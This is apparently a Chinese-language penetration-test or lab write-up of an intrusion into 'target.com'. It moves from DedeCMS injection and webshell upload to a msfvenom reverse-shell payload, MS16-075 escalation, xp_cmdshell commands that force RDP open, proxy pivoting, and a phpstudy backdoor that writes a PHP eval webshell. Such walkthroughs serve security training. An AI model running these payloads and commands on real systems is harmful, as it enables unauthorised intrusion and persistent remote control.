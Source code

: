 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/0SP8UjSWlek3DKjlSLIJcw)

**DMZ Web**

### **Information Gathering**

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcKxG3vVZnynU0Czj8RDEI2pfOc9A10NCiaibEVicgPcDxYvQP53bKiaJUsA/640?wx_fmt=png)

WEB 服务器，但是首页只有一个 IIS 7 的欢迎界面，所以先看一下端口顺便扫个目录。  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcmNUjFN7727ia3hLnSjAYIDY701Xv7POs197NY8jPKL6aS7icvCJo7YlA/640?wx_fmt=png)目录没什么东西，不过可以看到 aspx 的环境，看一下端口:![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcA6uWoZyacSAVfwibjMJw1XAic1iaLCKAT4cicxZMULiaricHtBEnR97mgW6w/640?wx_fmt=png)

开了 21，还有一个 999 的 web 端口。  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8Zztcp3djkicnlO9nPYnuBCkqLl50JAxAX2gelwQK5mXw1zSHicX75BrU3FuA/640?wx_fmt=png)

尝试对 phpmyadmin mysql 的 root、admin、test 账号做了 enumeration，没什么效果，后面进行端口扫描的时候发现漏了一个端口:  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztciaC0HjTqqGuPhib7PGuwC7v7fPlaelwVxibG9LsPJZqOMViavef49TlmiaA/640?wx_fmt=png)

这个前台面板看了下可以登陆 ftp、mssql、mysql，简单的先尝试了几个弱口令无果。

并且穷举了子域名:

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcmrcJibQTsj40emOOJrOjgDibPw4D40z2ObmTDjAxOQIbj1xSu1bCdtuA/640?wx_fmt=png)

www.target.com 科讯  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8Zztcg6adl35JczxC76jf1mxvvBib4vjjAS5sRpMNQo75SnTrxeMMUhTQCaA/640?wx_fmt=png)

new.target.com 织梦  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcXzvibDLpc8f7abC7EvbpvZEhzh6q6jgRVgwYxdGpwAiaYiaWgT3YWuAIA/640?wx_fmt=png)

ww2.target.com Grcms  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcKj3a5fVAkOPj7vd5qsQCTvhrMedUiabR1ofbUc0ZQgFoiaEQ2jc89icqw/640?wx_fmt=png)

### **Dedecms Getshell**

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcicbK90DGxc5HxMx4OqO90CQlnl5KtSJINVdbO7r6NmLFL2MrUlFBlwQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcXAHE11wBkz5wTUibZc2msVwceyxnibiazWXdWvAZOoKFv3W681rmCBzibQ/640?wx_fmt=png)

dedecms 默认后台，版本 DedeCMSV57_UTF8_SP1(20150618  kali 中文乱码，凑合看…)，这个版本注入应该，先注册用户然后可以跑出来 admin 的密码:  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcEJyIPrQjkeCTK2ftjxFedwxdPLZiaDjmbBia547XtXbVicbLzrYpHTeIA/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztciajS5PIvHrWbia2JMEulutpQHSpqNtsaTuNrOZibjHiahxm39gnlWZJ30Q/640?wx_fmt=png)

getshell 比较简单，文件管理器 -> 新建文件即可。  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcibsW9QAiag8iaRLzxr54KczdUiaQzvGKYuzeU2WdSdWejxnCDMYibVyxOZg/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcDKVjZGwvrpg4xZicJWPI10iavLeayT4cK6AhUKviaKwSbSmLmPNicGbEAg/640?wx_fmt=png)

### **DMZ Privilege Escalatioon**

拿到了 webshell 考虑弹一个 msf meterpreter shell 回来。

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.8.187 lport=2678 -f exe > ./bd.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcaiatR7dqo1melfs3EEq7u6rVnoPSUaSxW4RKibH7QU8t5YK130ZNgLuQ/640?wx_fmt=png)

怀疑是不是有 disable_functions，看一下:  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcSGL6SJVh4fLrxtBhEphEJphEyNgw4NEZeiaYGGY3FbqWUwswwRVyGOg/640?wx_fmt=png)

AntSword 有个插件非常方便可以绕… 我不太想手工了，麻烦，上个 aspx 马看一下:

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8Zztc6hiboWL11npzSltiaTQ1ibanlXhsCCSN4BzaMp3UJP5esib2gQsLm2cJKw/640?wx_fmt=png)

先用 D 神工具测一下目录:  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcOUmxgVW6ezUib6jgk4Nj03ibmSdibRP8uXNia6K1DSRfeDpVUc0ojicJZ4Q/640?wx_fmt=png)

最后写到了 c:\windows\debug\WIA 中并执行。  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcJEg0Buk7hlb1FYzr7NOcxKgPeJc1fk6doICL3kNtYEXUKzxgZABHGA/640?wx_fmt=png)

直接 getsystem 是不行的，用 suggester 来试一下:  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcpJkXPia823AMvJwnIGmSHEviajCb4K74xgUllzEfgO9pcDbeDXev9qqw/640?wx_fmt=png)

这里选择用 ms16_075 来提权:  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8Zztc4zPa9KLashp8r2xRx59u7TflicEeKdX7J9usAQt2Zx4fbCZNjvBhbDA/640?wx_fmt=png)

**SQL Server**
--------------

### **Privilege Escalation**

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcMYm5HdvAknHibbCZlqO7QTDBGdVvQ39fHs4WJLySaO5yGVAOib1jPRcQ/640?wx_fmt=png)

看到还有一个网卡，是有内网的，加个用户开 3389 上去看一下:  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcicuibMccWVLSqRSjgjIlz49AicdYz3IUib8vK5FsSBfnGhu41LfIJ2SQ9w/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcPHibItlX7FZxBU26SYj97e9tJHTaRibIqXOibzsIlPNiaEKNMRucN7L5Bg/640?wx_fmt=png)

看到确实有三个网站在运行，有一个是. net 的，但是本机没有 sql server，考虑是不是站库分离的情况。  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcBpZgODuvRWqH6HiaMP0YS1mcYPZTc55G31MicfuvOxtI4gtk2lLyGExg/640?wx_fmt=png)

因此确定 ww2.target.com 是站库分离的情况，并且直接是 sa 权限。直接 aspx 马连一家伙:  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcuGg4I6am8rOPxaAJAYXKQr2CAxcWHic2dBoduVpagv8krOrde0qJVaQ/640?wx_fmt=png)

添加一下 xp_cmdshell 执行命令:  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcSpfP7O7qicEGTyhAW95LDZSROepiafDc5PL5yg8MaNRicuFl0JhO6oG4A/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcPsBDKZq8CXAJYtbNazD9qQG3TZCWjgUYa3OGQcbs5o2br6X3oy8QGw/640?wx_fmt=png)

136 应该是 sql sever ip，先 xp_cmdshell 强开一波 3389:  

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp" /v PortNumber /t REG_DWORD /d 3389 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 3389 /f
net start termservice
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcZ1WTtLAqMyT7jTEwHPFJHd2W5vPyOJ4OK1Ah0IZRF5m4No9uGDicXLw/640?wx_fmt=png)

Socks Proxifier  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8Zztcib8Zklc2NGGhIQUocXEeSkFuYWFndHaYOPGcbePpUoH7fBGURAyZxAA/640?wx_fmt=png)

这里选择用 ew 来做代理。  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8Zztc7hQHZPRnhu8lD5XTZoByicGexianxFN6aUXV37SfahEjJlibt9lcZYTJw/640?wx_fmt=png)

看到确实开了，但是 proxchains 连接不上，估计是防火墙或者其他原因。这里其实还可以选择用 msf 进行后渗透，我是关掉了 DMZ 的防火墙。  

**这里注意，如果 ew 比较麻烦，不太好上传，那我们可以在 msf 添加了路由之后，使用 auxiliary/server/socks4a 这个模块，用 msf 开个 socks 代理，这样本机可以通过 msf 的路由来访问内网，proxychains 配置就写本机 ip 即可。**  

但还是要用 msf 添加一下路由:  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcsL8BXjvlb1hatVicl5BGCIQTHuJaoRHAA2FgLVhUcDyxH4B6ibVUXibWA/640?wx_fmt=png)

接着我用 msfvenom 生成 bind_tcp 的后门，本机 Windows 通过 proxifier(或 **SocksCap64**) 连到 DMZ 的 8888 端口进而连接 SQL Server 的 3389 并开启文件共享，然后执行后门:  

```
msfvenom -p windows/meterpreter/bind_tcp lport=2999 -f exe > ./bd_1.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcCauzM9ETJOFBFKwLia2gUbUbyvW9oqgYOpNqpdfQicL4YiaoZuLI3Xu7g/640?wx_fmt=png)

而此时因为 msf 已经添加路由，可以通过路由去主动连 SQL Server 服务器获取 shell:  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8Zztce4swKnibFzGAQfW7avLMKicMyglmzD8UEp6ay29v1Bia2A9ib4Re2M5fRQ/640?wx_fmt=png)

成功获取 shell。  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8Zztcw7fxue0EtRH5b0qOcphpstHLI91wadiacT7g7FWVahiawe8fLMDo9W3Q/640?wx_fmt=png)

再添加一层路由，看一下 10.10.1.0/24 这个段有什么。  

**Intranet Web**
----------------

### **Information Gathering**

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8Zztco8P5ggGhtfosoz4bntxQkxFtUIKKzI0MSCkAicHJmPlB5q8Yov02fug/640?wx_fmt=png)

看到一台 129，我也不做探测了，看起来就那么一两台，如果要探测内网的话可以 proxychains 配合 nmap 或者 msf 添加路由后本身就可以完成。同样的，用 ew 做了层代理。  

我选择了 msf 直接探测端口… 比较方便，但是后面涉及到了 web，所以考虑了一下还是做了 ew。  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcnH3rOoeB8Es0TdBRmbJicOU1evHBQniaX2HJLweJSduWHWVtjh0EpQnA/640?wx_fmt=png)Eternanal Blue![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8Zztcia2Ar1aLf1V1GAQfYhFYbCVtlHVEXUhSZ4zdWicOHGcjibwahFiahVGWmA/640?wx_fmt=png)

**FAIL…**  

### **PHPstudy Getshell**

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcyzzHYoCwq5iblZzlXwq7E2DsYR1Qbg27g91k3YaKmbHVZ9zRtdygicHw/640?wx_fmt=png)

好家伙，直接试试 phpstudy 后门。  

```
python .\phpstudy.py "echo ^<?php @eval($_POST[shell]); ?^>>c:\phpstudy\WWW\get.php"
```

注意 Windows 转义，并且实测 powershell 这条不成功，cmd 可以。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcAbIyBJYia65ZspUNPVhRBPn5R5nKVxAHKHjoQEd6QHZn9AJDK8XEDOg/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztclGmyFnSX5Z9tlDAaSl6wtYibx6iaLWibPOQsticxgWwVx5u2HxupxTPAIA/640?wx_fmt=png)

也不用提权了。  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibvDxnl7byVibapVvcY8ZztcPYTibhuqHNSAicNiak6XvGeWg6USND17LNklLib951iapn3v1hUCciccOAPQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

**推荐阅读：**

[![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8QfeuvouibVuhxbHrBQLfbnMFFe9SJT41vUS1XzgC0VZGHjuzp8zia9gbH7HBDmCVia2biaeZhwzMt8ITMbEnGIA/640?wx_fmt=jpeg)](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247495879&idx=1&sn=ab05215b31822bee4461255e9fac3237&chksm=ec1ca5f8db6b2cee91b02eb6a70e5ed979c6e46ef40b548f8467affed9bc9de476854bc5a41a&scene=21#wechat_redirect)

**点赞 在看 转发**  

原创投稿作者：Railgun

![](https://mmbiz.qpic.cn/mmbiz_gif/Uq8QfeuvouibQiaEkicNSzLStibHWxDSDpKeBqxDe6QMdr7M5ld84NFX0Q5HoNEedaMZeibI6cKE55jiaLMf9APuY0pA/640?wx_fmt=gif)